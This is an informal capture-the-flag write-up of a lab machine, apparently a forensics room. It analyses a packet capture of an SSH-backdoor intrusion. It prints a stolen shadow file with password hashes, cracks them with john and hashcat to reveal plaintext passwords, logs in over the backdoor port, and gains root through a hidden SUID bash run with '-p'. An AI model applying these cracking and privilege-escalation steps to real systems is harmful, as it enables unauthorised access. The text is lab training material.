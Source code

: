 Read wireshark. In the end of the file we can see an ssh connection. The initial attack was a file upload vulnerability -> Reverse shell

james:password(read the early wireshark logs to findout the password)

The attacker established an ssh [backdoor](https://github.com/NinjaJc01/ssh-backdoor). 



```
)ºH)nEê®½@@¯ÎÀ¨ªÀ¨ªáP	aµdg§Õ1öÜ^
5QÂýøroot:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
```

Clean up the shadow file(This is 114 in wireshark)
```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::

```
john --wordlist=fasttrack.txt cleanup
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2022-07
The four passwords are revealed

3479 is the hashes flag/key

./backdoor -a HASH


After analyzing the source code(Backdoor) we realize the hash is a sha512(hint: with a salt that may or may not be in the golang file)
https://hashcat.net/forum/thread-1541.html

hashcat -m 1710 clean2 rockyou.txt

The password is hashvalue:password
^ Output


ssh -p 2222 10.10.6.32

Using the above password. Something I was not aware of, just because it's ssh doesn't mean it needs a password.

Enumerating/linpeas relveased a file called ".suid_bash"

If you look for suid bits(The attacker does this in Wireshark/this may be a hint)

find / -perm -u=s -type f 2>/dev/null
or wget linpeas.sh
Turns out the file is executable. I did not realize this & glanced at a walkthrough before using a polkit exploit. I still have to look into the -p & why that activated root. Once you're root read the flag.

```
/home/james/.suid_bash

cd to /home/james/

ls -la

./.suid_bash -p
```

This was a super fun CTF!
